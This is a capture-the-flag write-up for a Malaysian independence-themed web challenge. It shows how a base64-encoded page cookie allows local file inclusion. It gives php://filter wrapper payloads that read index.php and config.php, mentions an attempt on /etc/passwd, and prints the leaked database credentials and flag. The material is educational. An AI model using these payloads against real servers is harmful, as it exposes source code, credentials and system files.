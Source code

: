 ```yaml
---
description: Ayuh nyanyikan lagu patriotik bersama sempena hari kemerdekaan Malaysia.
---
```


# Merdeka

The website shows us three pages with different national songs and lyrics

<figure><img src="../../../.gitbook/assets/image (569).png" alt=""><figcaption></figcaption></figure>

```html
<a href="javascript:void(0)" onclick="setPage('tanggal31.html')">Tanggal 31</a>
<a href="javascript:void(0)" onclick="setPage('keranamu.html')">Keranamu Malaysia</a>
<a href="javascript:void(0)" onclick="setPage('jalurgemilang.html')">Jalur Gemilang</a>
```

Interesting stuff here, the `setPage` function takes in the page name and encodes it in base64 and sets the value in the cookie &#x20;

```javascript
function setPage(page) {
        const encodedPage = btoa(page);
        document.cookie = "page=" + encodedPage + ";path=/";
        location.reload();
    }
```

The page cookie directly translates to either of the 3 pages in base 64. For example:

* tanggal31.html | page = `dGFuZ2dhbDMxLmh0bWw=`
* keranamu.html | page = `a2VyYW5hbXUuaHRtbA==`
* jalurgemilang.html | page = `amFsdXJnZW1pbGFuZy5odG1s`

Now that we know that this seems like an LFI vulnerability. Let's check out the source code which is `index.php` by using a PHP wrapper



`php://filter/read=convert.base64-encode/resource=/var/www/html/index.php`



By the time of writing this the infra of the ctf already shut down so can't provide the ss. But the `index.php` doesn't show us any flag. I got stuck here lol, even tried to read `/etc/passwd`.&#x20;

<figure><img src="../../../.gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

Eventually, i left the challenge half-way

Apparently, the solution was to check common files like **`config.php`** which contained databse connections and root folders.

`php://filter/read=convert.base64-encode/resource=/var/www/html/config.php`

Encode it into base64 and plug it in the page cookie and we will receive the `config.php` encoded in base64

```
PD9waHAKJGhvc3QgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gImN1YmFhbiBtZW5nZWhhY2sga2EgaXR1IjsKJHBhc3N3b3JkID0gIjMxMDh7bTRyMV9rMXQ0X3c0cmc0X24zZzRyNH0iOwokZGF0YWJhc2UgPSAiZmxhZyI7CgokY29ubiA9IG5ldyBteXNxbGkoJGhvc3QsICR1c2VybmFtZSwgJHBhc3N3b3JkLCAkZGF0YWJhc2UpOwoKaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBkaWUoIkNvbm5lY3Rpb24gZmFpbGVkOiAiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9CgplY2hvICJDb25uZWN0ZWQgc3VjY2Vzc2Z1bGx5IjsKPz4K
```

When decoded:

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong><strong>
</strong>$host = "localhost";
$username = "cubaan mengehack ka itu";
$password = "3108{m4r1_k1t4_w4rg4_n3g4r4}";
$database = "flag";

$conn = new mysqli($host, $username, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

echo "Connected successfully";
?>
</code></pre>

Flag: <mark style="color:red;">`3108{m4r1_k1t4_w4rg4_n3g4r4}`</mark>
